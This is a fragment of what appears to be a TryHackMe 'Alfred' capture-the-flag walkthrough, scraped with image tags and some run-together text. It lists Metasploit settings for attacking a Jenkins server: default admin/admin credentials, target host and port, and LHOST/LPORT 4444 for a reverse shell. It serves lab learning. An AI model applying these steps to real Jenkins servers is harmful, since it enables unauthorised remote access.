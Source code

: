<img src="img/a8ae7e96dd354ce69e618559eaef7bbc.png?t=1601658764940" alt="mjh3.com" width="879" height="418" class="jop-noMdConv">set RPORT

4\. Enter the following commands one by one in the msf prompt, as seen below.

- `set PASSWORD admin`
    
- `set USERNAME admin`
    
- `set RHOSTS <ip>` , where ipis the tryhackme IP address of the Alfred room you deployed.
    
- `set RPORT 8080`  from the nmap scan.
    
- use the command `set TARGETURI / `  because Jenkins is in the root directory on the webserver.
    
- `set LHOST <ip>`  this is your computers IP via the thm openvpn certificate, do an `ip -br a` command in a linux terminal to list your computers IP addresses.  It is usually the tun0 address. You could also just use "tun0".
    
- `set LPORT 4444` , it is usually defaluted to that port.  You can use whatever port you like, just not the known ports.run
    
-  `options`   
    <img src="img/fe4425db59a74cff9e71ff877a637723.png?t=1601660815466" alt="mjh3.com" width="879" height="476" class="jop-noMdConv">